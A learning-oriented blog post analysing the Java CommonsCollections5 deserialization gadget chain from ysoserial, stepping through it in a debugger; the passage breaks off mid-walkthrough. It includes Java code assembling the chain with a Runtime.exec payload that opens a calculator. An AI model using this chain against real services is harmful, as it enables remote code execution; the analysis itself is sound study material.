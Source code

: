 ```yaml
---
layout: post
title:  "Analyze Java deserialization gadget chains - For learning purpose"
date:   2022-01-19 16:00:00 +0700
categories: research
author: Quang Vo
tags: java, deserialization
description: Research
---
```


# Introduction 
Most of people have heard about Java deserialization apocalypse. There are great tools out there for hunting deserialization vulnerabilities out there, to name a fews:
- The famous [ysoserial](https://github.com/frohoff/ysoserial)
- The same [ysoserial](https://github.com/pwntester/ysoserial.net) but for C# .NET
- [Gadgetinspector](https://github.com/JackOfMostTrades/gadgetinspector)

While in those tools, payloads are already there for us to use. But I believe the best way to learn and remember what we learnt are by actually understanding it, that's why I write this blog, to help me remember and understand it more and also for who want to know about this. t

In this blog, we are going to dive in some of the famous gadget chain to see what's in there and how it's work.

IDE I use in this blog will be [IntelliJ IDEA Ultimate](https://www.jetbrains.com/idea/) so that we can debug line by line of codes, you can use the community version, it's fine.

I'm not an expert in Java or Java deserialization exploit, so if I made any mistakes in this blog post, please forgive me and let me know how can I fix it.

## CommonsCollections5 gadget chain

In ysoserial, there are 7 different gadget chains relate to `CommonsCollection` . In this blog post, I'll use `commons-collection version 3.2.1` .

Here is what the gadget chain look like from `ysoserial` : 

```java
BadAttributeValueExpException.readObject()
  TiedMapEntry.toString()
    TiedMapEntry.getValue()
      LazyMap.get()
        ChainedTransformer.transform()
          ConstantTransformer.transform()
          InvokerTransformer.transform()
            Method.invoke()
              Class.getMethod()
          InvokerTransformer.transform()
            Method.invoke()
              Runtime.getRuntime()
          InvokerTransformer.transform()
            Method.invoke()
```

I write some Java code to invoke the gadget chain and start to debug it ( you can see more details from [here](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java)):
```java
   public static void CommonsCollections5() throws IllegalAccessException, NoSuchFieldException {

        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"gnome-calculator"})});
        HashMap innerMap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innerMap,chain);
        TiedMapEntry tiedMap = new TiedMapEntry(map,123);
        tiedMap.toString();

        BadAttributeValueExpException poc = new BadAttributeValueExpException(null);

        Field fi = poc.getClass().getDeclaredField("val");
        fi.setAccessible(true);
        fi.set(poc, tiedMap);
    }
```

The gadget chain start at `BadAttributeValueExpException.readObject()`

Content of `BadAttributeValueExpException.readObject()`

![image](https://user-images.githubusercontent.com/37280106/150266360-12b657d4-9f5a-45ee-aa0f-dccd4bd4a735.png)

We will place breakpoint at `LazyMap.get()` method to start debugging this gadget chain

![image](https://user-images.githubusercontent.com/37280106/150266663-855ce765-8fcb-488e-88d8-e71c93f271bf.png)

Why do I place breakpoint at `LazyMap.get()` method ?. 

That is because if we place breakpoint at `BadAttributeValueExpException.readObject()` or `TiedMapEntry.toString()` or `TiedMapEntry.getValue()` method.
IntelliJ IDEA Debugger will execute the payload and pop calc before we go all the way down to the gadget chain, I guess during the Debugger session, IntelliJ IDEA has invoked methods beforehand to get us the local variables's value, so the payload has been executed.


Let's go through what `LazyMap.get()` does:
- First, it checks if `this.map` has a key or not
- If not, it will call method `this.factory.transform()`

![image](https://user-images.githubusercontent.com/37280106/150267702-fc9a2313-8360-4e8a-8720-cf7cebbec500.png)

`this.factory` here is `ChainedTransfomer` so `this.factory.transform()` is `ChainedTransformer.transform` 

Stepping into `this.factory.transform()`
![image](https://user-images.githubusercontent.com/37280106/150271971-8917f61a-4674-4015-bfc3-6e033447f2cb.png)



`this.iTransformer[]` has 4 elements:
- ConstantTransformer
- InvokerTransformer
- InvokerTransformer
- InvokerTransformer

#### At the first interval, `i=0` 

`this.iTransformer[0] = ConstantTransformer` 

So `this.iTransformer[0].transform() = ConstantTransformer.transform()`


![image](https://user-images.githubusercontent.com/37280106/150269639-b80b205d-e819-402b-89a4-1b56d8c3222e.png)
*ConstantTransformer.transform()*

`ConstantTransformer.transform()` doesn't do anything much, just return `this.iConstant` 

#### Second interval, `i=1`

![image](https://user-images.githubusercontent.com/37280106/150272216-e36be323-b30c-4c2d-8fe1-52203a75154a.png)

`this.iTransformer[1].transform(object)` where:
- `this.iTransformer[1] = InvokerTransformer`
- `Object = class java.lang.Runtime` 

Stepping in `InvokerTransformer.transform(object)` 

![image](https://user-images.githubusercontent.com/37280106/150272502-2170d79d-a22f-43d9-89a0-09e094a6a975.png)

Current local variables:
- `Object input = class java.lang.Runtime` 
- `Class cls = Runtime.class.getClass()` => `cls = java.lang.Class` 
- `this.iMethodName = getMethod` 
- `this.iParamTypes has been set before: String.class, Class[].class`
- `this.iArgs = new Object[2] {"getRuntime", Class[0]}` 
- 
And then it executes `method.invoke` 

The input here is: `Runtime.class`, an **Object** of class `java.lang.Class`. Every class in Java is an object of class `java.lang.Class` 

So `Class cls = Runtime.class.getClass() => cls = java.lang.Class` 

The next line: `Method method = cls.getMethod(this.iMethodName, this.iParamTypes)` with:
- `this.iMethodName = "getMethod"`

It turns to:
```java
Method method = Class.getMethod("getMethod"); 
```
Which means, using `getMethod()` to get the method name `getMethod` of class `Class` ( kinda confusing right ? )

The final one: `method.invoke(input, this.iArgs)`

This is belong to **Java Reflection API** collection, it allows us to invoke methods on a class, if that class **is not possible to cast an instance of the class to the desire type** ( read more [here](https://docs.oracle.com/javase/tutorial/reflect/member/methodInvocation.html))

- `input = java.lang.Runtime`
- `this.iArgs = new Object[2] {"getRuntime", Class[0]}`

Eventually, it will turns into:
```java
Runtime.class.getMethod("getRuntime", ...)
```

The final result of this loop is `object = getRuntime()` 

#### Third interval, `i=2`

